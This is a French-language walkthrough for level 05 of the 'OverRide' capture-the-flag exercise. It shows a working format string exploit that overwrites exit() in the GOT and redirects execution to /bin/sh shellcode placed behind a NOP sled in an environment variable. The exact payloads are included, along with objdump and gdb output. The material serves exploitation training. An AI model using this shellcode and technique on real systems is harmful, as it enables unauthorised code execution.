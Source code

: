 # Level 05
```
export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%53790x" + "%10$hn" + "%11737x" + "%11$hn")'; cat ) | ./level05
```

## Solution

Dans le code source, nous avons identifié une vulnérabilité liée à un printf() mal formaté. Cette vulnérabilité permet de réaliser une format string attack, ce qui nous offre la possibilité d’écraser l’adresse de la fonction exit() dans la **GOT (Global Offset Table)**. En procédant ainsi, nous allons pouvoir rediriger l'exécution du programme vers du code arbitraire, notamment un shellcode que nous injecterons dans une variable d’environnement.

Tout d'abord, nous devons récupérer l'adresse de la fonction exit() dans la GOT. Cela peut être fait à l'aide de l'outil objdump, qui permet de visualiser les tables de relocation dynamiques. En exécutant la commande suivante :
```
    level05@OverRide:~$ objdump -R ./level05 
    ./level05:     file format elf32-i386
    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    080497c4 R_386_GLOB_DAT    __gmon_start__
    080497f0 R_386_COPY        stdin
    080497d4 R_386_JUMP_SLOT   printf
    080497d8 R_386_JUMP_SLOT   fgets
    080497dc R_386_JUMP_SLOT   __gmon_start__
    080497e0 R_386_JUMP_SLOT   exit
    080497e4 R_386_JUMP_SLOT   __libc_start_main
```

**adresse de exit : 080497e0**

Ensuite recuperons l'offset de la variable overwrittable avec printf format exploit :

```
    level05@OverRide:~$ python -c'print("AAAA" + " %p" * 20)' | ./level05 
    aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffceef 0xffffceee (nil) 0xffffffff 0xffffcf74 0xf7fdb000 0x61616161 
    0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

**AAAA est en 10eme position**

**offset : 10**


Maintenant recuperons l'adresse de notre shellcode

en premier il faut set notre shellcode pour la precision on va utiliser des **NOP sled** ce qui aura pour effet que d'augmenter la precision de notre payload en visant une range d'adresse pluto qu'une adresse precise, tan que l'adresse sur laquel il pointe est dans le sled le processeur passera a l'instruction suivante et glissera comme cela jusqua notre shellcode

```
    export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')

    level05@OverRide:~$ gdb ./level05 
    (gdb) b main
    Breakpoint 1 at 0x8048449
    (gdb) run 
    Starting program: /home/users/level05/level05 

    (gdb) call (char *) getenv("SHELLCODE")
    $1 = 0xffffd0fa "\220\220\220\220\220\220\220\220\220"...
```

On utilisera une adresse dans le NO sled pour la precision donc :

**adresse du shellcode : 0xffffd0fa = 4294955258 + 300(padding pour tomber dans un no sled) = 0xffffd226**

Pour pouvoir faire notre payload on va utiliser une derniere technique car comme l'adresse 0xffffd226 est egale a 4294955558 cela fait beaucoup de caractere, cela risque de prendre enormement de temps, voir d' echouer donc on va print sur les partie haute et basse de l'adresse de exit

```
    d226 = 53798
    ffff = 65535

    padding adress basse    : 
    53798 - 8       = 53790
    padding adress haute    : 
    65535 - 53798   = 11737
```

### Payload

**[Adress de exit] + [Adress de exit + 2] + [padding adress basse - 8 pour les deux adress deja print] + [offset de exit] + [padding adress haute - padding adress basse] + [deuxieme offset de exit]**

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%53790x" + "%10$hn" + "%11737x" + "%11$hn")'; cat ) | ./level05
```